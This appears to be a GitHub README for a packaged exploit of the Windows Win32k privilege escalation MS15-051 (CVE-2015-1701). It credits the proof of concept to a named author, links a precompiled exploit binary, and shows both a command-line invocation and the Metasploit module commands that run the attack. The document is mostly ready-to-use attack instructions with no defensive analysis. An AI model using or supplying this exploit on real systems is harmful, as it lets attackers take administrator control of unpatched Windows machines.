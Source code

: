 # MS15-051

- The POC was from [@hfiref0x](https://github.com/hfiref0x/CVE-2015-1701)

Vulnerability reference:
 * [MS15-051](https://technet.microsoft.com/en-us/library/security/ms15-051.aspx)
 * [CVE-2015-1701](https://github.com/offensive-security/exploit-database-bin-sploits/raw/master/sploits/37049-32.exe)
 

## Usage
```
c:\> MS15-051.exe whoami
```
![win7](win7.png)

## load the module within the Metasploit console
```
 msf > use exploit/windows/local/ms15_051_client_copy_image
      msf exploit(ms15_051_client_copy_image) > show targets
            ...targets...
      msf exploit(ms15_051_client_copy_image) > set TARGET <target-id>
      msf exploit(ms15_051_client_copy_image) > show options
            ...show and set options...
      msf exploit(ms15_051_client_copy_image) > exploit
```

### Links

* [Win32k Elevation of Privilege Vulnerability](https://www.fireeye.com/blog/threat-research/2015/04/probable_apt28_useo.html)


